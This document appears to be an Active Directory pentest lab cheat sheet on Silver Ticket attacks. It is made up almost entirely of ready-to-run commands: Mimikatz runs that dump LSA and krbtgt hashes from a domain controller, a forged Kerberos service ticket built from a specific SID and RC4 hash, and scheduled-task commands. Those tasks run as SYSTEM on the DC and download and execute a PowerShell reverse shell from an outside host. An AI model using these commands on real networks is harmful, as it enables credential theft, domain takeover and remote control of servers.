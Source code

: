 # Silver Ticket

### Invoke-Mimikatz

#### Execute mimikatz on DC as DA to get krbtgt hash

```
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername dcorp-dc
```

#### Using hash of the Domain Controller computer account, below command provides access to shares on the DC

```
Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-268341927-4156871508-1792461683 /target:dcorp-dc.dollarcorp.moneycorp.local /service:CIFS /rc4:6f5b5acaf7433b3282ac22e21e62FF22 /user:Administrator /ptt"'
```

```
Similar command can be used for any other service on a machine.
Which services? HOST, RPCSS, WSMAN and many more.
```

### Schedule and execute a task

```
schtasks /create /S dcorp-dc.dollarcorp.moneycorp.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://192.168.100.1:8080/Invoke-PowerShellTcp.psi''')'"

schtasks /Run /S dcorp-dc.dollarcorp.moneycorp.local /TN "STCheck"
```
